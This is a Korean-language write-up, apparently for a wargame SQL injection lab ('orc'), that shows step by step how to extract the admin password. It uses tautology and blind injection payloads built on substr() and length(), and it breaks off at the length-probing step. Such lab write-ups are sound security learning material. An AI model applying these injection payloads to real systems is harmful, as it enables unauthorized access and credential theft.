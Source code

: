## Q4. orc _ 비밀번호 획득 실험실
<img src="/photo/prob_04.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: admin의 패스워드를 찾아라.
### 해결책

```
먼저 쿼리문이 참이 되도록 만들어 봄
=> 논리를 이용
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || 1--+
```
```
but. admin은 표시되나 문제가 해결되지는 않음
문제 해결을 위해서는 admin의 패스워드가 필요함
=> 패스워드가 문자열이므로 sql 문자열 관련 함수를 찾아봄
=> SUBSTR()함수를 찾아 이를 시도해봄
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || substr(pw,1,1) = 'a' --+
```
```
but. 아무것도 뜨지 않음
=> a가 아닌 다양한 문자열 넣어봄
=> '0'에서 admin이 떠서 참이 되는 것을 확인함
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || substr(pw,1,1) = '0' --+
```
```
위의 쿼리가 맞다는 것을 확인함
=> substr()함수 안의 시작위치 바꿔서 시도함
but. 시작위치가 얼마나 될지 확신을 먼저 확인해야함
=> sql 문자열 길이 함수를 찾아봄
=> length()함수를 찾아 이를 시도해봄
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || length(pw) > 1 --+
```
```
```